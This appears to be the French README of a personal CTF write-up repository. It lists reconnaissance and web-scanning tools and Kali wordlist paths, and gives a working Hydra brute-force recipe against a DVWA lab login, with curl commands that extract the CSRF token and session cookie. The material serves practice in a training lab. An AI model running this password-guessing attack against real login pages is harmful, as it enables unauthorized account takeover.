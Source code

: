 # CTF
Write-up des chall que j'ai réalisé


# TOOLS
phoneinfoga => FrameWork pour OSINT de numero de telephone
Feroxbuster, dirb, dirbuster, gobuster => fuzz

nikto, Nessus, Rapid7, OpenVas => Scanner de vulnerabilitö web

BurpSuite, ZAProxy => Scanner de platforme web

Maltego => Reconnaissance passive graphique
Metagoofil => Reconnaissance passive

# BRUTE FORCE
Avec Hydra :
```
CSRF=$(curl -s -c dvwa.cookie "192.168.1.44/DVWA/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
```
```
SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')```
```
```
curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${CSRF}&Login=Login" "192.168.1.44/DVWA/login.php"
```
```
hydra  -L /usr/share/seclists/Usernames/top_shortlist.txt  -P /usr/share/seclists/Passwords/rockyou-40.txt \
  -e ns  -F  -u  -t 1  -w 10  -v  -V  192.168.1.44  http-get-form \
  "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area:H=Cookie\: security=low; PHPSESSID=${SESSIONID}"
```

# WORDLIST :
/usr/share/wordlists
  |--dirb
  |--dirbuster
  |--fasttrack.txt
  |--fern-wifi
  |--metasploit
  |--nmap.lst
  |--rockyou.txt
  |--wfuzz

/usr/share/wordlists/dirb/common.txt => sub domain 
/usr/share/wordlists/dirb/big.txt => sub domain 
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/usr/share/seclist/bitquark-subdomains-top100000.txt
/usr/share/seclist/subdomains-top1millions-110000.txt
